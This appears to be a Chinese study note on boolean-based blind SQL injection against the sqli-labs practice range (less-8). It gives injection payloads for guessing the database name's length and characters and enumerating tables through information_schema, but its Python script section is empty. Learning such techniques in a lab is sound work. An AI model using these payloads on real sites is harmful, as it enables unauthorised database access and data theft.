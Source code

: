 <img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220731003633645.png" alt="image-20220731003633645" style="zoom:50%;" /><img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220731003657404.png" alt="image-20220731003657404" style="zoom:50%;" />

**需要了解的关键函数**

`ascii()`：把字符转换成对应的ascii码值，也就是一个数字。`使用ascii()函数对要查询的信息的每一个字符进行猜测，如果猜对了，页面为TRUE，正常显示，如果猜错了，页面就为FALSE，不显示，猜出每一个字符后，将所有字符拼接起来，所得到的字符串就是我们要查询的信息。`

ascii码对照表：http://ascii.wjccx.com/

**例如：使用布尔盲注在靶场less-8中猜测数据库名称的第一个字母**

```sql
#猜错的情况
?id=1' and ascii(substr((select database()),1,1))=100 -- 
#猜对的情况
?id=1' and ascii(substr((select database()),1,1))=115 -- 
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220731011438006.png" alt="image-20220731011438006" style="zoom:50%;" /><img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220731011543128.png" alt="image-20220731011543128" style="zoom:50%;" />

`在猜测数据库名称第一个字符的过程中，通过对页面的观察，只有当ascii值为115时，页面才能正常显示。而这一值对应的字母是s，所以由此推测出，该数据库名称的第一个字母是s。按照这个过程，利用二分法，依次推断出每一个字符，最后拼接起来就成为了结果。`

也可以不使用ascii()进行盲注，直接猜测字符：

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220731013201344.png" alt="image-20220731013201344" style="zoom:50%;" />

用Python写一个专门针对布尔盲注的程序，通过循环，一次又一次的猜测，拼凑出最终的查询结果。

```Python

```

#### 布尔盲注步骤：

##### （1）猜解数据库名称长度

```sql
#使用二分法，猜解出数据库的长度
and length(database())>=10 -- 
```

##### （2）猜解当前数据库名称的组成字符

```sql
#使用二分法，猜解出数据库名称单个组成字符的ASCII码值，然后对应到字符上
and ascii(substr(database(),1,1))<=120 -- 
```

##### （3）猜解当前数据库下表的个数

```sql
#使用二分法，猜解出当前数据库下的表的个数
and select count(*) from information_schema.tables where table_schema='数据库名称')<=10 -- 
```

```sql
#使用二分法
and length(concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security')))<=30-- 
```

